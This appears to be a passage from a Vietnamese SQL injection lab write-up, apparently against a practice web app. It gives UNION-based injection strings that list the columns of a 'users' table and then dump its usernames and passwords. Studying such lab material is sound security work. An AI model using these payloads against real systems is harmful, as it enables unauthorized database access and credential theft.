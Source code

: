      >  Ta dễ dàng thấy các **tables** có trong database hiện tại được liệt kê ra là *guestbook* và *users*

   - Liệt kê tên các **column** trong table `users`:

     ```
     1' UNION SELECT null, column_name FROM information_schema.columns WHERE table_name = 'users' -- -
     ```
     ![](./images/12-39-07.png)

     > Các column trong table `users` gồm: **user_id, first_name, last_name, USER, password, avatar, last_login, failed_login, PASSWORD_ERRORS, PASSWORD_EXPIRATION_TIME** 

   - Liệt kê **username** và **password** trong table `users`
     
     ```
     1' union select user, password from users -- -
     ```
     ![](./images/13-34-39.png)
